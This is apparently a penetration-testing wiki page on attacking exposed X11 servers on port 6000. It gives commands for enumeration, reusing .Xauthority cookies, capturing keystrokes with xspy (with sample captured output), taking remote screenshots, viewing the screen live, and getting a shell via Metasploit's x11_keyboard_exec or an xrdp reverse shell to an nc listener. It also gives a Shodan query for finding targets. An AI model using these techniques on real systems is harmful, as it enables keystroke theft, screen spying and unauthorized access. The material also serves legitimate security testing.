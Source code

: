 # 6000 - Pentesting X11


## Basic Information

**X Window System** (X) is a versatile windowing system prevalent on UNIX-based operating systems. It provides a framework for creating graphical **user interfaces (GUIs)**, with individual programs handling the user interface design. This flexibility allows for diverse and customizable experiences within the X environment.

**Default port:** 6000

```
PORT       STATE   SERVICE
6000/tcp   open    X11
```
```
## Enumeration

Check for **anonymous connection:**

```bash
nmap -sV --script x11-access -p <PORT> <IP>
msf> use auxiliary/scanner/x11/open_x11
```
```
#### Local Enumeration

The file **`.Xauthority`** in the users home folder is **used** by **X11 for authorization**. From [[https://stackoverflow.com/a/37367518|**here**]]:

```bash
$ xxd ~/.Xauthority
00000000: 0100 0006 6d61 6e65 7063 0001 3000 124d  ............0..M
00000010: 4954 2d4d 4147 4943 2d43 4f4f 4b49 452d  IT-MAGIC-COOKIE-
00000020: 3100 108f 52b9 7ea8 f041 c49b 85d8 8f58  1...R.~..A.....X
00000030: 041d ef                                  ...
```
```
> MIT-magic-cookie-1: Generating 128bit of key (“cookie”), storing it in \~/.Xauthority (or where XAUTHORITY envvar points to). The client sends it to server plain! the server checks whether it has a copy of this “cookie” and if so, the connection is permitted. the key is generated by DMX.

> [!WARNING]
> In order to **use the cookie** you should set the env var: **`export XAUTHORITY=/path/to/.Xauthority`**

#### Local Enumeration Session

```bash
$ w
 23:50:48 up 1 day, 10:32,  1 user,  load average: 0.29, 6.48, 7.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
user     tty7     :0               13Oct23 76days 13:37   2.20s xfce4-session
```
```
In the example, `localhost:0` was running xfce4-session.

## Verfy Connection

```bash
xdpyinfo -display <ip>:<display>
xwininfo -root -tree -display <IP>:<display> #Ex: xwininfo -root -tree -display 10.5.5.12:0
```
```
## Keyloggin

[[http://tools.kali.org/sniffingspoofing/xspy|xspy]] to sniff the keyboard keystrokes.

Sample Output:

```
xspy 10.9.xx.xx

opened 10.9.xx.xx:0 for snoopng
swaBackSpaceCaps_Lock josephtTabcBackSpaceShift_L workShift_L 2123
qsaminusKP_Down KP_Begin KP_Down KP_Left KP_Insert TabRightLeftRightDeletebTabDownnTabKP_End KP_Right KP_Up KP_Down KP_Up KP_Up TabmtminusdBackSpacewinTab
```
```
## Screenshots capturing

```bash
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
convert screenshot.xwd screenshot.png
```
```
## Remote Desktop View

Way from: [[https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref|https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref]]

```
./xrdp.py <IP:0>
```
```
Way from: [[https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html|https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html]]

First we need to find the ID of the window using xwininfo

```
xwininfo -root -display 10.9.xx.xx:0

xwininfo: Window id: 0x45 (the root window) (has no name)

Absolute upper-left X:  0
Absolute upper-left Y:  0
Relative upper-left X:  0
Relative upper-left Y:  0
Width: 1024
Height: 768
Depth: 16
Visual: 0x21
Visual Class: TrueColor
Border width: 0
Class: InputOutput
Colormap: 0x20 (installed)
Bit Gravity State: ForgetGravity
Window Gravity State: NorthWestGravity
Backing Store State: NotUseful
Save Under State: no
Map State: IsViewable
Override Redirect State: no
Corners:  +0+0  -0+0  -0-0  +0-0
-geometry 1024x768+0+0
```
```
**XWatchwin**

For **live viewing** we need to use

```bash
./xwatchwin [-v] [-u UpdateTime] DisplayName { -w windowID | WindowName } -w window Id is the one found on xwininfo
./xwatchwin 10.9.xx.xx:0 -w 0x45
```
```
## Get Shell

```
msf> use exploit/unix/x11/x11_keyboard_exec
```
```
Other way:

**Reverse Shell:** Xrdp also allows to take reverse shell via Netcat. Type in the following command:

```bash
./xrdp.py \<IP:0> –no-disp
```
```
In the interface you can see the **R-shell option**.

Then, start a **Netcat listener** in your local system on port 5555.

```bash
nc -lvp 5555
```
```
Then, put your IP address and port in the **R-Shell** option and click on **R-shell** to get a shell

## References

- [[https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref|https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref]]
- [[https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html|https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html]]
- [[https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref|https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref]]

## Shodan

- `port:6000 x11`



